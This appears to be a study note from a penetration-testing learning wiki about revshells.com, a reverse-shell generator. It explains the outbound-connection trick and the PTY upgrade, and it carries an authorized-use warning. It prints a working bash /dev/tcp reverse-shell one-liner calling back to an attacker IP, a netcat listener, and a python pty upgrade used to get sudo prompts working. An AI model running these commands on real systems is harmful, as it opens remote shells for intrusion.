

# revshells.com

revshells.com is an online **reverse-shell generator**. You enter your listener IP and port, pick a shell type (bash, `nc`, python, PowerShell, PHP, …) and target OS, and it prints the correct one-liner — plus the matching listener command. It eliminates the error-prone job of remembering and correctly quoting dozens of payload variants, and teaches the *shape* of a reverse shell along the way.

> [!warning] Authorized targets only
> A reverse shell is remote code execution. Generate and use payloads only against systems you are authorized to test.

## Parent Learning Order
GTFOBins -> LOLBAS -> CrackStation -> Aperisolve -> revshells.com

## Crook — The Mental Model

A firewall usually blocks *inbound* connections but allows *outbound* ones. A **reverse shell** exploits that asymmetry: instead of you connecting *to* the victim (a bind shell, usually blocked), the victim connects *back to you*, and its shell's input/output ride that connection. You run a listener; the victim "calls home."



The reverse direction is the whole trick — outbound egress is the path fewest firewalls block.

## Operator — Make It Work

Set `LHOST`/`LPORT` on the site, choose a shell, and it generates both halves. Start the listener first, then run the payload on the target:

```shell-session
attacker$ nc -lvnp 4444
Listening on 0.0.0.0 4444
```

```bash
# victim (generated bash payload)
bash -i >& /dev/tcp/10.0.0.5/4444 0>&1
```

```shell-session
attacker$ nc -lvnp 4444
Connection received on 10.0.0.20 51234
victim$ id
uid=33(www-data) gid=33(www-data)
```

The site offers the same shell in every flavour — `nc`, `nc -e`, python3, PHP, PowerShell, Perl, Ruby, Go, `mkfifo` — so whatever the victim *has*, there's a payload. It also generates the listener line and a one-click **`Ctrl-Z` → `stty raw -echo`** TTY-upgrade snippet.

## Root — Internals & The Deliberate Break

A raw reverse shell is a *dumb* shell — and discovering its limits is the lesson:

```shell-session
victim$ sudo su          # in a raw nc shell
sudo: no tty present and no askpass program specified
victim$ ^C               # this kills your WHOLE shell, not the command
attacker$ (connection closed)
```

**The deliberate break:** a raw reverse shell has **no PTY**, so anything needing a terminal — `sudo` password prompts, `ssh`, `vim`, job control — fails, and a stray `Ctrl-C` kills the entire session instead of the running command. The fix is the **TTY upgrade** revshells.com provides:

```shell-session
victim$ python3 -c 'import pty;pty.spawn("/bin/bash")'
# then on attacker: Ctrl-Z; stty raw -echo; fg; export TERM=xterm
victim$ sudo su
[sudo] password for www-data:      ← now the prompt works
```

Understanding *why* (a reverse shell is a byte pipe, not a terminal — no PTY means no line discipline, no job control) is what separates "the shell keeps dying" from a stable, interactive foothold. The generator gives you the payload; knowing the PTY limitation makes it usable.

## Crook → Operator → Root Checkpoint

- **Crook:** Why does a reverse shell have the victim connect *out* to you instead of you connecting in?
- **Operator:** The target has python but not `nc`. How does revshells.com still get you a shell?
- **Root:** Explain why `sudo` and `Ctrl-C` misbehave in a raw reverse shell, and what a TTY upgrade fixes.

---
> 🔼 Up: [[Web-Based Tools & References]]
